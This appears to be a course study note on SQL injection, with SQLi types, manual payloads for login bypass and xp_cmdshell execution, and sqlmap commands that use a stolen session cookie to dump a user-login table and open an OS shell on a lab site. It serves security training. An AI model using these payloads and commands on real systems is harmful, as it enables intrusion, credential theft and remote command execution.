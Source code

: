 # 15 - SQL Injection

## Module 15 - SQL Injection

<details>

<summary>What is SQL Injection?</summary>

**SQL Injection** is a type of security vulnerability that occurs when an attacker is able to manipulate an SQL query in a way that it executes unintended commands on a database. This can lead to unauthorized access, data disclosure, data manipulation, or even database destruction.

Here's a basic textual explanation:

**1. SQL Query:** In web applications, databases are often used to store and retrieve data. The application sends SQL queries to the database to interact with the data.

**2. User Input:** User input is data that a user provides to a web application, like a search query in a text box or a login form.

**3. Vulnerability:** In a vulnerable application, the SQL query is constructed by simply including the user's input without proper validation or sanitization.

**4. Attack:** An attacker can enter malicious input, which may include SQL code, into the user input fields. If the application doesn't properly validate and sanitize this input, the attacker's SQL code becomes part of the query sent to the database.

**5. Exploitation:** The attacker can manipulate the SQL query to perform malicious actions, such as extracting sensitive data, modifying or deleting data, or even taking control of the database.



</details>

<div align="left">

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/">https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/</a></p></figcaption></figure>

</div>

<details>

<summary>Type of SQL Injection</summary>

### Types of SQL Injection

**Union-based SQL**i: This technique involves using the UNION SQL operator to combine the results of the original query with the results of an attacker-controlled query.

**Error-based SQL**i: This technique involves forcing the database to generate an error, which can reveal information about the database structure.

**Blind SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. The attacker has to send a payload, and based on the application's response, he can infer if the payload was executed successfully or not.

**Time-based Blind SQLi**: This is a type of blind SQLi where the attacker can infer if the payload was executed successfully or not based on the time the server takes to respond.

**Out-of-Band SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. Instead, the results are sent to an external server controlled by the attacker.

**Second Order SQLi**: In this type of SQLi, the payload is not directly injected into the SQL query, but it is stored by the application and used in a later SQL query.

**Stored Procedure Attacks**: This involves calling stored procedures from the SQL injection point.

**Function Call Payloads**: This involves calling database functions from the SQL injection point.

**Boolean-based SQLi**: This involves sending a SQL query that will return a different result depending on whether the condition in the query is true or false.

**Content-based SQLi**: This involves sending a SQL query that will return a different result depending on the content of the HTTP response.

</details>

## Manual Injection

* `‘ or 1=1 --`  for login bypass
* admin' --
* admin' #
* admin'/\*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/\*
* ') or '1'='1--
* ') or ('1'='1—
* `‘insert into login values ('john','apple123'); --` create own user in the database
* `‘create database mydatabase; --`  create database with name of mydatabase
* `‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --` execute ping on moviescope

## SQLMap

* Open the vulnerable website
* Copy the cookie from the inspect element
* Open the terminal and run SQLMap

### Basic Commands

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using SQLMap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST

Then, if we've SQL username and psw, we can use them to login and query db.

```bash
mysql -U qdpmadmin -h 192.168.1.8 -P passwod
show databases;
use qdpm;
show tables' select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
```

## Other Tools

* **Havij**: Havij is an automated SQL Injection tool that helps penetration testers to find and exploit SQL Injection vulnerabilities.
* **jSQL Injection**: jSQL Injection is a lightweight application used to find database information from a distant server.
* **BBQSQL**: BBQSQL is a blind SQL injection framework written in Python.
* **NoSQLMap**: NoSQLMap is an open-source Python tool designed to audit for as well as automate injection attacks and exploit default configuration weaknesses in NoSQL databases.
* **SQLNinja**: SQLNinja is a tool to exploit SQL Injection vulnerabilities on a web application that uses Microsoft SQL Server as its back-end.
* **SQLiX**: SQLiX is a SQL Injection scanner written in Perl.
* **SQLSentinel**: SQLSentinel is an application-level firewall for MySQL that prevents SQL Injection attacks.
* **MyBatis**: MyBatis is a Java persistence framework that includes a built-in SQL Injection scanner.
* **Blisqy**: Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

## Additional Resources

{% embed url="https://hackertarget.com/sqlmap-tutorial/" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

{% embed url="https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/" %}

{% embed url="https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336e" %}

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

{% embed url="https://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/" %}

{% embed url="https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF" %}

{% embed url="https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
